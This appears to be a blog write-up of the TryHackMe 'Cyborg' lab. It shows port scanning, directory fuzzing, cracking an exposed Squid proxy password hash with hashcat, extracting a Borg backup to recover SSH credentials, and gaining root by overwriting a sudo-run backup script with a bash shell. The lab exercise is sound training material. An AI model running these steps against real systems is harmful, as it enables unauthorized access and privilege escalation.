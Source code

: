 ```yaml
---
layout: post
title: TryHackMe/Easy/Cyborg
abbrlink: 31b1a0bbb88a426e80020a0c32e16dd7
tags:
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Cyborg
date: 1727858207414
updated: 1727947553282
---
```


<https://tryhackme.com/r/room/cyborgt8>

# Enumeration

## \[+] 10.10.123.69 - cyborg.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.123.69 cyborg.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.123.69
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

After scanning, we will find ports 22 and 80 open.

## \[+] Port 80 - HTTP

### \[-] cyborg.thm

Nothing to really look at on this website at first glance, so let's try fuzzing for files and directories using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt):

```sh
feroxbuster -u http://cyborg.thm -w /usr/share/SecLists/Discovery/Web-Content/common.txt -x json,txt,js,xml -s 200,301,302,403 -o p-80-www-ferox.txt
```

After the scan is finished, we will find a couple of interesting URLs:

![3b6ad68d39ec50519b29ae6db1270957.png](/resources/97dad00863554ceca85619a4a7ef7091.png)

### \[-] cyborg.thm/admin/admin.html

Here, we will find a chat conversation between the website admins. One of the entries mentions an unsecure installation of [Squid Proxy](https://www.squid-cache.org/):

![9ed9f891846b541cf062373acb5bf45b.png](/resources/6b102cbce0704989853a85259c31989c.png)

```plaintext
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
```

# Initial Foothold

### \[-] cyborg.thm/etc/squid/passwd

Here, we'll find the credentials for the Squid Proxy. The password is hashed so we'll need to figure out which hashing algorithm was used before we can crack it:

![b4dd38a3346563d3c064050f895bc255.png](/resources/8c093d2bacc34083b756992878a1f9b3.png)

Copy the hash portion: `$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.` and paste it into a next text file then save it as `creds.txt`.

Using the [Haiti](https://noraj.github.io/haiti/#/pages/quick-start?id=quick-start) hash identifier tool will identify the hashing algorithm as MD5 and we can use mode 1600 with hashcat to crack it:

![a56f3ea6b5b2e64dd9da20028e5987ec.png](/resources/fc0c9ddd52254269844045799edafbc2.png)

Next, we'll run Hashcat using [this password list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords.txt) from SecLists:

```sh
hashcat -m 1600 creds.txt /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords.txt
```

After some time, we will find the plaintext version of the password:

![2c64683e843cfa89202d656f9b37f027.png](/resources/8f1b885c9f174c40b52e50a77adc071f.png)

### \[-] cyborg.thm/admin/archive.tar

We'll start by uncompressing the archive by running the following command:

```sh
tar -xf archive.tar
```

This archive is a Borg Backup repository as mentioned in the `/home/field/dev/final_archive/README` file:

![308041fc5aeba89334f1ef422bb56bfd.png](/resources/ab393f687de0437389004259da7763bd.png)

Checking the Borg Backup [documentation](https://borgbackup.readthedocs.io/en/stable/quickstart.html), we will find the commands we will need to extract the data from the archive.

First, we'll need to move to the `/home/field/dev/` directory:

```sh
cd /home/field/dev/
```

Next, we'll run the following command to list the available archives and provide the password we cracked earlier when prompted:

```sh
borg list final_archive
```

![7b53f3e6447d6303cd70038f44e8fe4e.png](/resources/92cdee95366d4aa4bb63ea22f5b3e206.png)

We can extract all the files within the `music_archive` using the following command and provide the password when prompted:

```sh
borg extract final_archive::music_archive
```

Inside `/home/alex/Documents/note.txt` we will find a note and credentials:

![f69ae3e88ab68c502025888fb7875699.png](/resources/6cb8e8b759954de6879f28eb9661d5ea.png)

## \[+] Port 22 - SSH

### \[-] alex\@ubuntu

Let's use the credentials we just found to connect via SSH:

```sh
ssh alex@cyborg.thm
```

![2ea23e4e474838909474c5afb07065eb.png](/resources/54e6542fd61042e1b58246569b67ccfe.png)

We can find the user flag in `/home/alex/user.txt`:

![d1d598caaf2035435aa0593f8e66a815.png](/resources/655a1827453344b392e3cf34db5b458f.png)

# Privilege Esclation

### \[-] root\@ubuntu

The `.bash_history` log has not been cleared so let's see if we can find anything interesting:

![ee7c03e30f480a2d1157e8f60a3d7cca.png](/resources/473ad48a1ad84162b647dcd94f203945.png)

```sh
cat .bash_history
```

Here, we'll find a script being used with `sudo` to elevate the permissions inside the `/etc/mp3backups/` directory:

![f7a3de9eb1d9dfa38c4f47d14d4524a0.png](/resources/eb271dabf16348a187f63cd602b59bf1.png)

Let's check the sudo permissions of the user `alex` by running `sudo -l`:

![e46c3f1bd32c1d3b850dc89922944c0f.png](/resources/44677119cfa94a96af538a2b97c4e04c.png)

We still have sudo permissions for executing this script, so let's check our permissions on the script itself by running the following command:

```sh
ls -lah /etc/mp3backups/backup.sh
```

![9f10d3bcd09a679e94871d479109e55b.png](/resources/759f3f97a61f48a79efcd0825fede030.png)

Our current user, `alex` is the owner of the `backup.sh` script, which means we can edit the script however we want and run it with sudo permissions.

Let's make a backup copy of the script by running the following command:

```sh
cp backup.sh /tmp/backup.sh.old
```

Next, we'll need to turn on write permissions again by using `chmod +w`:

![4ac422dae3e8b0d6c00dd7f5a84fdf79.png](/resources/163e0d79c76b41dba9de0f741906cdad.png)

Then, we'll overwrite the script with our own commands which will create a bash shell and since it is being ran with the `sudo` command, we'll be root:

```sh
cat > backup.sh << EOF
#!/usr/bin/env bash
/bin/bash
EOF
```

![25f685753bfcf3ef95a476817ef8108d.png](/resources/d459a31f3000492986a6c33baf0783b8.png)

We can find the root flag in `/root/root.txt`:

```sh
cd /root
cat /root/root.txt
```

![8fd8287c84ff3c41d7c6fd6f3a2593d3.png](/resources/e5db46d06cc04a77a8993e7409a87a5d.png)
